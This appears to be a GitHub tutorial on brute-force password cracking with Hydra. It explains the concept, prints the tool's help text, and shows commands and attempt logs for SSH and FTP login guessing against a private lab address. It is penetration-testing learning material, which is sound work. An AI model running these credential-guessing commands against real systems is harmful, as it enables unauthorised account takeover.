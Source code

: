 # BruteForcing
Brute force attack is a method used in cryptanalysis to find a password or key. It involves testing, one by one, all possible combinations. 
* This method is generally considered the simplest conceivable.
* It allows any password to be broken in a finite time regardless of the protection used, but the time increases with the length of the password
* This method is often combined with dictionary and rainbow table attack to find the secret faster.

## Tool
<hr>

### Hydra
* Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.
* Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

### Launch hydra

```bash
hydra
```
output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

`Example : hydra -l user -P passlist.txt ftp://192.168.0.1`

## protocols supported.
<img src="forcebruteP.png" width="80%">

# let's try
```bash
hydra -l root -x 1:9:aA1 192.168.133.129 ssh
```
```bash
hydra -V -l root -x 1:9:aA1 192.168.133.129 ssh
```
output

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 16:59:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 242234 login tries (l:1/p:242234), ~15140 tries per task
[DATA] attacking ssh://192.168.133.129:22/
```
## Brute forcing
we will create two files containing usernames and passwords.

### Let's try
```bash
hydra -V -L usernames -P passwords 192.168.133.129 ftp

````
Output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 17:35:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://192.168.133.129:21/
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty12" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty12" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty12" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty12" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty12" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty" - 11 of 16 [child 10] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty12" - 12 of 16 [child 11] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty" - 13 of 16 [child 12] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty12" - 14 of 16 [child 13] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty" - 15 of 16 [child 14] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty12" - 16 of 16 [child 15] (0/0)
|
```

dsfsdsfsf
Samglui